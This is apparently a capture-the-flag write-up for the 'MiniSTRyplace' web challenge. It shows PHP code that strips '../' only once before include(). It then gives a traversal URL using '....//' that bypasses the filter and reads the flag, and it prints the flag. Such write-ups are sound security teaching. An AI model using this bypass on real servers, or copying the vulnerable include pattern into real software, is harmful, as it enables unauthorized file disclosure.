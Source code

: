 ```yaml
---
title: MiniSTRyplace
date: 2021-04-25 14:03:00 +0200
categories: [web]
tags: [cyberapocalpyse2021]
toc: false
---
```


This challenge contains a LFI vulnerability. You can read more about it in this [article](https://medium.com/@Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601/). (\* ^ ω ^)

The webpage looks like this:
![](/assets/img/miniSTRyplace_web.png#center)

## Vulnerability
Let's take a look at the index file `index.php`:

```php
<html>
    <header>
        <meta name='author' content='bertolis, makelaris'>
        <title>Ministry of Defence</title>
        <link rel="stylesheet" href="/static/css/main.css">
        <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootswatch/4.5.0/slate/bootstrap.min.css"   >
    </header>

    <body>
    <div class="language">
        <a href="?lang=en.php">EN</a>
        <a href="?lang=qw.php">QW</a>
    </div>

    <?php
    $lang = ['en.php', 'qw.php'];
        include('pages/' . (isset($_GET['lang']) ? str_replace('../', '', $_GET['lang']) : $lang[array_rand($lang)]));
    ?>
    </body>
</html>
```

We can see it checks if the param `lang` is given and if so it replaces “../” with a blank character.  If we submit “....//”, it becomes “../” allowing path traversal and access to the flag.

## Exploitation
With that knowledge we just visit http://[DOCKER-IP]/?lang=....//....//....//flag and read the flag:

> CHTB{b4d_4li3n_pr0gr4m1ng}

٩(◕‿◕｡)۶